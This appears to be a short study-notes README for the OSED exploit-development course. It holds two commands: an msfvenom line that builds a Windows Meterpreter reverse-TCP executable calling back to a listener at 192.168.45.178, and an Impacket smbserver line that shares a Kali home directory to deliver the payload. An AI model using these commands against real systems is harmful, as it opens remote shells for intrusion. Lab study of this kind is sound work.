# x86Win-OSED-Notes

met payload: 
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.178 LPORT=4343 -f exe -o met.exe

smbserver:
  sudo smbserver.py met /home/kali/ -smb2support
